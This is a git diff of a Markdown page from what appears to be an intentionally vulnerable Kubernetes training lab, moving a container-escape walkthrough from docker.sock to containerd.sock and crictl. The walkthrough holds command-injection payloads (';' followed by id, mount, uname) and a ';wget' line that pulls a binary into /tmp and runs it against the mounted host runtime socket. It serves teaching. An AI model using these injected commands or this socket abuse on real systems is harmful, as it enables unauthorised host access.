

adapt pod for DIND scenario

Changed region(s): [[0.0308, 0.2753, 0.9842, 1.0], [0.0, 0.0, 0.2153, 0.2447]]

diff --git a/guide/docs/scenarios/scenario-2/scenario-2.md b/guide/docs/scenarios/scenario-2/scenario-2.md
@@ -22,7 +22,7 @@ By the end of the scenario, we will understand and learn the following
 
 ### ⚡ The story
 
-Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.
+Most of the CI/CD and pipeline systems use the underlying host container runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system of the worker node by escaping out of the docker container.
 
 :::info
 
@@ -34,7 +34,7 @@ Most of the CI/CD and pipeline systems use the underlying host Docker runtime to
 
 ### 🎯 Goal
 
-The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.
+The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on other container running on the same node.
 
 :::tip
 
@@ -54,30 +54,13 @@ If you can able to obtain container images in the host system then you have comp
 <details>
   <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
   <div>
-    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
+    <div>Identify the mounted UNIX socket volume, and use the crictl binary to communicate with that with <b>-r</b> flag 🎉</div>
   </div>
 </details>
 
 ## 🎉 Solution & Walkthrough
 
 ### 🎲 Method 1
-
-- Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.
-
-```bash
-www.google.com
-```
-
-:::tip
-- if you get your local domain appended, try using
-
-```bash
-www.google.com.
-```
-
-- If you have to do this, you should always add a . after a url, even in wget commands. The extra dot is required is that kubernetes has a default option of ndots:5 in /etc/resolv.conf, which is verifiable in this scenario. This means that unless a minimum of 5 dots are present, the domain is not assumed to be a FQDN.
-:::
-
 
 - By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands
 
@@ -89,7 +72,7 @@ www.google.com.
 
 - As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain
 
-- It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems
+- It contains `containerd.sock` mounted into the file system as it's not available commonly in standard systems
 
 ```bash
 ; mount
@@ -97,44 +80,45 @@ www.google.com.
 
 ![Scenario 2 mount](../images/sc-2-3.png)
 
-- Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket
+- Wow! we can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket
 
 :::tip
 
-We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  
+We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [crictl binary](https://github.com/kubernetes-sigs/cri-tools/blob/master/docs/crictl.md), or a simple `curl` program as well.  
 
 :::
 
-- Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery
+- Next we can download the `crictl` static binary from the internet [https://github.com/kubernetes-sigs/cri-tools/releases](https://github.com/kubernetes-sigs/cri-tools/releases). In order to determine which binary we need, we can run the following command for system discovery
 
 ```bash
 ;uname -a
 ```
 
-- We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command
+- We can examine the output to determine our system architecture and OS, then download the appropriate binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command
 
 ```bash
-;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
+;wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.1/crictl-v1.27.1-linux-amd64.tar.gz -O /tmp/crictl-v1.27.1.tar.gz
 ```
 
-- We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket
+- We can extract the binary from the `crictl-v1.27.1.tgz` file so that we can use that to talk to the UNIX socket
 
 ```bash
-;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
+;tar -xvf /tmp/crictl-v1.27.1.tar.gz -C /tmp/
 ```
 
 ![Scenario 2 extract binary](../images/sc-2-4.png)
 
-- Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket
+- Now we can access the host system by running the following crictl commands with passing `containerd.sock` UNIX socket
 
 ```bash
-;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
+;/tmp/crictl -r unix:///custom/containerd/containerd.sock images
 ```
 
 ![Scenario 2 list host images](../images/sc-2-6.png)
 
-- Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation
+- Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different crictl commands to gain more access and further exploitation
 
-## 🔖 References
+:::tip
 
-- [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
+You can do the analog steps with  `ctr` and interact with the containerd runtime. `crictl` shows you containers as visible in kubernetes. `ctr` shows also additional containers, such as kubernetes hidden pause containers.
+:::
